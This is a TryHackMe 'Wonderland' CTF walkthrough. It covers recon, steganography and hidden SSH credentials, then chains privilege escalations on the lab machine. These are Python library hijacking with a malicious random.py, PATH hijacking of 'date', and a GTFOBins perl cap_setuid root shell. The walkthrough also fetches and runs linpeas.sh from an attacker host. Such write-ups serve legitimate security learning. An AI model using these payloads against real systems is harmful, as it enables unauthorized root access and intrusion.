This room **[wonderland](https://tryhackme.com/room/wonderland)** from TryHackMe:


First I have the ip of the machine I'm working on **10.10.148.147** and I need to get the flags so I'll go to kali-linux and work on the laptop from there and execute a command to see what ports are open on the ip da 

```
rustscan -a 10.10.148.147 -- -sC -sV -Pn -oN nmap_results
```

So we have 2 open ports http 80, ssh 22, now we'll go to the website 

 

```
http://10.10.148.147
```


We have an image of a rabbit, I will pull it from the website and try to see if there is any hidden information or not via the [**jimpl**](https://jimpl.com) website  ****and the exiftool tool 

First, pull the file 

```
wget http://10.10.148.147/img/white_rabbit_1.jpg
```



Second, scan the image:





### **No important information**

But using the steghide tool, I found a hint.txt file with the text "follow the r a b b i t "



**NEXT,**

I will try to find any other paths in the URL "http://10.10.148.147/" using the dirsearch tool. 

```
dirsearch -u http://10.10.148.147 -w /home/kali/Desktop/TOOLs/wordlist/dirbuster-wordlist-master/directory-list-2.3-medium.txt
```

I found several paths, including  **/r, /img, /poem.**

I duplicated this path with /r at the end and found the path /a and by repeating this step until I reached the final path 

```
http://10.10.148.147/r/a/b/b/i/t
```

this:


go to source code:



WE have hidden text 

```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```

**very good!**

Now we can enter the SSH port:

 

```
	ssh alice@10.10.148.147
```

and when it asks for the password, we'll type HowDothTheLittleCrocodileImproveHisShiningTail . 

Now we are on the user alice 



Notice the walrus_and_the_carpenter.py python file 

I tried the sudo -l command to see what alice can do. 



Here we know that he can execute the walrus_and_the_carpenter.py  filewith the permissions of another user named rabbit I opened the file using the vimcommand  walrus_and_the_carpenter.py :



You will find Python code inside. Read it carefully. You'll notice that the script randomly generates a poem. **But, more importantly**, it uses the `random` library.

**The Vulnerability:**When a Python script imports a library (such as `import random`), it looks for it in certain paths. One of those paths is the **current folder the script is running from**.

This means that if you create a file named `random.py` in the same folder`(/home/alice`), the script, when run with `root` permissions, will import and execute the code in **your** `random.py` file instead of the system's native `random` library.

**Exploit the vulnerability:**

1. **Create a  malicious`random.py`file :**Make sure the `random.py` file exists and contains the code that opens Shell.Bash
    
    ```
    echo 'import os; os.system("/bin/bash")' > random.py
    ```
    
2. Run**the original script using `sudo` with the user `rabbit`:**Now, run the command you are allowed to run exactly as specified in `sudo -l`. We'll use the `u` option to specify the user we want to run the command with.Bash
    
    **This is the command that will give you `rabbit`permissions :**
    
    ```
    sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
    ```
    

After executing the command, switch to the other user rabbit:



Now we see a file named teaParty and when I tried to read it using the vim command but it didn't display properly, so I sent the file to my computer to see if it contained anything:



**The text that the program prints:**

- `Welcome to the tea party!`
- `The Mad Hatter will be here soon.`
- `Ask very nicely, and I will give you some tea while you wait for him`
- `Segmentation fault (core dumped)` These are the texts I saw when I tried to run the program. Seeing them here confirms that we are on the right track.

**The Golden Line:**This is the most important line in all the output, and it fully exposes the fault: Plain Text

`/bin/echo -n 'Probably by ' && date --date='next hour' -R`

**Analyze this line:**

- This is not just text, this is a **full shell command**.
- The program doesn't calculate the time itself, it does it using the `system()` function we saw earlier.
- `/bin/echo -n 'Probably by'`: This part prints the phrase 'Probably by'.
- `&&`: This is a Shell operator that means "if the previous command succeeds, execute the next command".
- `date --date='next hour' -R`: This is the part that prints the date and time.

**The Vulnerability: The**program executes the `date` command directly from the shell. In Linux, when you type a command like `date, the`Shell looks for it in a set of folders specified in an environment variable called `PATH`.

If the `PATH` environment variable starts with the current folder (`.`), and you create an executable file named `date` in the current folder, the system will run your file instead of the real `date` program!

**Exploit the vulnerability:**

**Create the  malicious`date`file :**(This step should be in the `/home/rabbit` folder or any other folder where you have write permission.

```
echo '/bin/bash' > /tmp/date
```

*(It's always best to use the `/tmp` folder  for temporary files because all users can write to it.)*

**2. Make the file executable:**

```
chmod +x /tmp/date
```

**3. Modify**  the**`PATH`variable  (the most important step):**Have the shell look in the `/tmp` folder (where your malicious file is located) **first**.

```
export PATH=/tmp:$PATH
```

**4. Verify that the `PATH` has been successfully modified:**

```
echo $PATH
```

You should see that the output starts with `/tmp`:

**5. Run the target program:**Now, run `teaParty`.

```
/home/rabbit/teaParty
```

After executing the command, switch to the other user hatter:



The /home/hatter path contains a file named password.txt that contains the word WhyIsARavenLikeAWritingDesk?



So the next step after obtaining the password for hatter is to attempt linux privilege escalation with the [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) tool. 

First we go to the /dev/shm path

I uploaded the linpeas.sh  fileto the /home/hatter path

Then wget [http://10.14.110.126:8000/linpeas.sh](http://10.14.110.126:8000/linpeas.sh) to fetch the file  

then chmod +x [linpeas.sh](http://linpeas.sh/)

then /linpeas.sh to execute . 



That's the most important part of the report.

I found three files, but there is one file we are particularly interested in:/usr/bin/perl = cap_setuid+ep

 **Final Stage: Privilege Escalation from `hatter` to `root`**

After gaining access as the `hatter` user, traditional privilege escalation vectors like `sudo` failed. This prompted a search for alternative, less common attack paths, specifically focusing on Linux Capabilities.

1. Vulnerability Discovery with `getcap`

Instead of only searching for SUID binaries, we scanned the system for files with special capabilities using the following command:

```bash
getcap -r / 2>/dev/null

```

This command recursively searches the entire filesystem (`/`) for any file with capabilities (`getcap`), while redirecting errors to `/dev/null` for clean output. The results were decisive and clearly exposed the vulnerability:

```
/usr/bin/perl = cap_setuid+ep

```

2. Analysis of the Finding

This line was the key to gaining root access. Its breakdown is as follows:

- Target Binary: `/usr/bin/perl`
    - The program granted the special permission is the Perl language interpreter.
- Granted Capability: `cap_setuid+ep`
    - **`cap_setuid`**: This is short for **"Capability Set User ID"**. This capability grants the program the right to change the User ID it is running as to any other ID.
    - **`+ep`**: This signifies that the capability is both **Effective** (can be used) and **Permitted** (allowed to be used).

**Final Conclusion:**
The system explicitly tells us that the `perl` binary has the ability to change its identity to any other user, including the `root` user (who has User ID `0`). This indicates that the machine was configured to use the more modern Capabilities system instead of the traditional SUID bit to grant this dangerous permission to Perl.

**3. Exploitation via GTFOBins**

With `perl` confirmed as the target, the next step was to find a ready-to-use exploit payload from the GTFOBins repository.

1. Search GTFOBins: By searching for `perl` on the website, a dedicated section for "Capabilities" was found.
2. Find the Exploit Command: The site provides the exact command to exploit the `cap_setuid` capability:
    
    ```bash
    /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
    
    ```
    
3. Execute the Payload: Running this command causes `perl` to leverage its capability to set its User ID to `0` (root) and then execute a new `/bin/bash` shell with these elevated privileges. This grants full root access to the system.



### Now it's time to get the flags:

1-



2-


